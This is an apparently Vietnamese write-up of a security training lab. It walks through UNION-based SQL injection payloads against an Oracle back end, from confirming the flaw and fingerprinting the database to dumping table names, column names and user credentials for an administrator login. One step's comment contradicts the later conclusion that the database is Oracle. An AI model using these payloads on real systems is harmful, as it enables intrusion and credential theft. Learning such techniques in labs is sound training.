



# Lab: SQL injection attack, listing the database contents on Oracle

## Yêu cầu

Log in as the administrator user

## 1. Xác nhận tồn tại SQLi

So sánh response giữa 2 payload:

```text
/filter?category=Gifts'+and+1=2--   // không trả về kết quả
/filter?category=Gifts'+and+1=1--   // trả về kết quả bình thường
```

Kết luận: có tồn tại SQLi.

## 3. Xác định type + DMBS

```text
'+union+select+null,null+from+dual--          // seccess -> không phải Oracle DBMS
'+union+select+'a','a'+from+dual--            // success -> 2 cột đều là string
'+union+select+banner,'a'+from+v$version--    // success -> Oracle DBMS
```

## 4. Liệt kê các bảng

```text
'+union+select+'a',table_name+from+user_tables--
```



-> Liệt kê được các bảng: PRODUCTS và USERS_ZHKJZT

## 5. Liệt kê các cột của bảng `USERS_ZHKJZT`

```text
'+union+select+null,column_name+from+user_tab_columns+where+table_name='USERS_ZHKJZT'--
```



Các cột cần quan tâm: `PASSWORD_QMMTFU`, `USERNAME_IMCQMS`.

## 6. Lấy username và password

```text
'+union+select+USERNAME_IMCQMS,PASSWORD_QMMTFU+FROM+USERS_ZHKJZT--
```



## 7. Kết luận

Lab solved. Dùng credentials của `administrator` từ kết quả trên để đăng nhập.